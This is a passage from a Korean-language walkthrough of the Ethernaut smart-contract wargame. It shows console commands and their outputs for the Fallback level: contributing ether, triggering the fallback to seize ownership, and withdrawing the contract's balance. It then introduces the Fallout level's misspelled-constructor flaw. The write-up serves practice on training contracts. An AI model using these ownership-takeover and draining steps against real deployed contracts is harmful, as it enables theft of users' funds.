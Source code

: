 전송하는 이더가 0보다 크고 그 전에 이미 contributions에 이더 전송 기록이 있다면 소유권을 가져올 수 있을 것 같습니다.
게임을 시작해봅니다. `Get new instance`

배포된 컨트랙트의 소유계정을 조회해봅시다. 일단 플레이어는 아니군요.

{% highlight html %}
await contract.owner()
"0x234094aac85628444a82dae0396c680974260be7"
{% endhighlight %}

contribute 메소드를 실행해서 약간의 이더를 전송합니다. 조건에 의하면 0.001 이더보다 작으면 됩니다.
그리고 나서 getContribution 메소드로 정상적으로 contributions에 기록이 되었는지 조회해봅니다.


{% highlight html %}
await contract.contribute({from:player, value: toWei(0.0005)})
a = await contract.getContribution()
fromWei(a.toNumber())
"0.0005"
{% endhighlight %}

자, 이제 fallback 함수를 호출해서 소유권을 훔쳐올 차례입니다.😈

{% highlight html %}
sendTransaction({from:player, to: contract.address, value:toWei("0.001")})
{% endhighlight %}

트랜잭션이 마이닝된 후에 이 컨트랙트의 소유 계정을 조회합니다.

{% highlight html %}
await contract.owner()
"0x547d73355a851079e0395adb2c647821b74c7eaf"
{% endhighlight %}

플레이어의 계정으로 변경되었습니다! 이제 컨트랙트가 가진 이더를 전부 인출하겠습니다(미리 이 컨트랙트의 잔액을 조회합니다).


{% highlight html %}
await getBalance(contract.address)
"0.0015"
await contract.withdraw()
{% endhighlight %}

컨트랙트의 잔액을 다시 볼까요?

{% highlight html %}
await getBalance(contract.address)
"0"
{% endhighlight %}

성공입니다!


### 2. Fallout (difficulty 2/10)

이번 문제는 사실 알고나면 뭐 이런 문제가 다 있지 할 겁니다. 역시 컨트랙트의 소유권을 가져오는 것이 목적입니다.
그런데 주어진 컨트랙트를 살펴보니 소유권을 변경하는 곳은 생성자 밖에 없군요.

{% highlight javascript %}
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
{% endhighlight %}


[ethernaut]: https://ethernaut.zeppelin.solutions/
[ethernaut-gh]: https://github.com/OpenZeppelin/ethernaut
[faucet]: https://faucet.metamask.io/
[remix]: http://remix.ethereum.org/
[safemath]: https://github.com/OpenZeppelin/openzeppelin-solidity/blob/master/contracts/math/SafeMath.sol
[storage]: https://solidity.readthedocs.io/en/v0.4.25/miscellaneous.html?highlight=storage
[ropsten-etherscan]: https://ropsten.etherscan.io/tx/0x4c842eb4222b8ebdef4b31803821411b8e0051566b7a828c0cad8761b076718e#internal